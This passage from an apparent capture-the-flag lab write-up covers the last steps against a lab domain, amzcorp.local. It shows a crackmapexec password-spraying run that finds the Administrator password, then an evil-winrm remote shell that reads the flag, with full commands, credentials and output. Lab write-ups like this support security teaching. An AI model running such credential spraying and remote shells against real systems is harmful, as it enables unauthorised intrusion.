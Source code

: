 ![](images/Pasted%20image%2020250801185842.png)

Then we can use `crackmapexec` to enumerate the valid credit like before
```
crackmapexec smb amzcorp.local -u Administrator -p passwords.txt
SMB         amzcorp.local   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:amzcorp.local) (signing:True) (SMBv1:False)  
SMB         amzcorp.local   445    DC01             [-] amzcorp.local\Administrator:Summer2021! STATUS_LOGON_FAILURE 
SMB         amzcorp.local   445    DC01             [-] amzcorp.local\Administrator:amz@123 STATUS_LOGON_FAILURE 
SMB         amzcorp.local   445    DC01             [+] amzcorp.local\Administrator:K2h3v4n@#!5_34 (Pwn3d!)
```

Then we can get the credit `Administrator:K2h3v4n@#!5_34`

Finally, we can use `evil-winrm` to connect as Administrator
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/AWS]
└─$ evil-winrm -i amzcorp.local -u Administrator -p 'K2h3v4n@#!5_34'  
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ../Desktop/flag.txt
AWS{wr3ck3d_r3s1st0r}

```
